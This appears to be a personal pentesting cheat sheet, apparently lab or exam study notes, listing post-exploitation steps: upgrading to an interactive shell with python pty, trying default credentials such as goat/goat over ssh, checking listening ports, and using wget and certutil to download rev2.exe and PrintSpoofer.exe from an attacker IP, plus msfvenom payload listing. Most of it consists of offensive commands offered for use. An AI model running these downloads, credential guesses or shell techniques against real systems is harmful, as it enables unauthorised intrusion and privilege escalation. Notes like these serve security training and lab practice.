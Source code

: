 ###### Shell Upgrades
#shell #upgrades
```bash
# once on the box, try to upgrade into better shell for increased functionality such as history and up arrow commands
python -c 'import pty; pty.spawn("/bin/bash")'
```
###### Credentials
#credentials
```shell
#once on box, look for any usernames and if any are open ensure to utilize them or atleast attempt to ssh/rdp/vnc into with goat/goat or oracle/oracle
$ pwd
/home
$ ls
goat
harry
karla
oracle
sally
$ 

# successfully ssh'd in as goat
┌──(root㉿kali)-[/home/kali]
└─# ssh goat@192.168.80.132   
```
###### Checking Running Connections
#running #connections
```shell
# cheap netstat
$ ss -ant
State Recv-Q Send-Q            Local Address:Port            Peer Address:Port  
LISTEN0      80                    127.0.0.1:3306                 0.0.0.0:*     
```
###### Windows File Transfers
#filetransfers
#wget
```bash
wget http://192.168.45.208/rev2.exe
```
#certutil
```shell
#generic certutil
certutil -urlcache -f http://192.168.45.208/rev2.exe

# split tag, works everytime.
certutil.exe -urlcache -split -f "http://192.168.45.233/PrintSpoofer.exe"
certutil.exe -urlcache -split -f "http://192.168.45.233/PrintSpoofer.exe"
```
###### MSFvenom
#msfvenom 
- lists available payloads
```bash
msfvenom --list payloads | grep windows/x64/
```